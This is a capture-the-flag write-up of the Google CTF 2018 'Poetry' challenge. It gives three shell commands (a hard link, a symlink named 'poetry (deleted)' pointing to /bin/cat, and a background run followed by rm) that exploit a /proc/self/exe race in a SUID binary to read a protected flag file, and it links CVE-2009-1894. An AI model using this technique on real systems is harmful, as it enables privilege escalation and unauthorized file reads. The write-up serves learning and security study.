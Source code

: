 # Poetry 

[Inspiration writeup](https://github.com/BOAKGP/CTF-Writeups/tree/master/Google%20CTF%202018%20Quals%20Beginners%20Quest/Poetry)

We have a dynamically linked binary, that on the first run adds `LD_BIND_NOW = 1` to the env and runs `execvp` with `/proc/self/exe`.

But there's one thing, it doesn't get `/proc/self/exe`, it resolves the symlink with `readlink("/proc/self/exe")`, which is strange.

What happens if we delete or move the file while it's still running? Where will the link point? 
If we have an executable `a.bin`, after deleting, the symlink points to `a.bin (deleted)`, a name we can control and use a executable that we control.

So we need to execute `/home/poetry/poetry` and the move or delete it. How can we do it? With `ln` that allows us to keep `SUID` permissions along the same device.

1. `ln /home/poetry/poetry /home/user/poetry`
2. `ln -s /bin/cat '/home/user/poetry (deleted)'`
3. `( ./poetry /home/poetry/flag & ); rm /home/user/poetry`

This should execute the current executable with the `/home/poetry/flag` parameter, then, while it's running, the original binary is deleted and the link `/proc/self/exe` now points to `/home/user/poetry (deleted)` which again is a link to `/bin/cat`. So the program will `execvp("/bin/cat", "/home/poetry/flag")`.

Obviously, since this is a race condition, we need to run the script multiple times to make this work.
After a few tries, we get
```
ln -s /bin/cat '/home/user/poetry (deleted)'
ln /home/poetry/poetry /home/user/poetry
(/home/user/poetry /home/poetry/flag &); rm /home/user/poetry
CTF{CV3-2009-1894}
```

Also, visit some of the posts from when the exploit was uncovered: [here](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1894), [here](https://www.securityfocus.com/archive/1/archive/1/505052/100/0/threaded)